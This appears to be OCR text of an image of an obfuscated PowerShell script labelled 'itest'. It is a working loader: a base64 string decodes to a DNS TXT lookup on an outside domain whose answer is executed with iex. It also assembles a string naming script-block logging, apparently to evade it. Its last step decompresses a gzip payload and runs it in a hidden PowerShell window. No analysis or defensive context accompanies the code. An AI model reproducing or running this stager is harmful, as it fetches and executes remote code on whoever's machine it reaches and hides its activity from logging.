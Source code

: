 # itest
echo if([IntPtr]::Size -eq 8){$bb='powershell.exe'}else{$bb=($env:windir+'\sysnative\WindowsPowerShell\v1.0\powershell.exe')};$sw=(('E'+'nable{3}'+'c{1}'+'ip{0}Bloc{2}Logging')-f 't','r','k','S');$Tommy=('UmVzb2x2ZS1EbnNOYW1lIGhheC5zZWFtbGVzc2ludGVsbGlnZW5jZS5jb20uYXUgLVR5cGUgVFhUIHwgU29ydC1PYmplY3QgfCBTZWxlY3QtT2JqZWN0IC1FeHBhbmRQcm9wZXJ0eSBTdHJpbmdzIHwgU2VsZWN0LU9iamVjdCAtSW5kZXggMA==');$T2=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Tommy));$T3=iex $T2;iex $T3;$Alice="T^SUXWAGAmV[WVmT]@m]G@mHK\A";$Sandy=('H4sIAJdPqWYA/w3IMQvCMBAF4L9yW3VoB93qVAc3RajgIA7RPLRocnLvIM2/r+s3xNhe6g/SDiTS41tPIUHOBiJ78Enzwf5S1D6721jpSN11ylELuyPI8MJe53vfj28tq2ZWE+JpcNlumvUC1yzXP18AAAA=');$d=$(New-Object IO.StreamReader ($(New-Object IO.Compression.GzipStream($(New-Object IO.MemoryStream(,$([Convert]::FromBase64String($Sandy)))),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::UTF8)).ReadToEnd();iex ($bb + ' -c write-host $Alice');iex $d | powershell -nop -w hidden -noni -
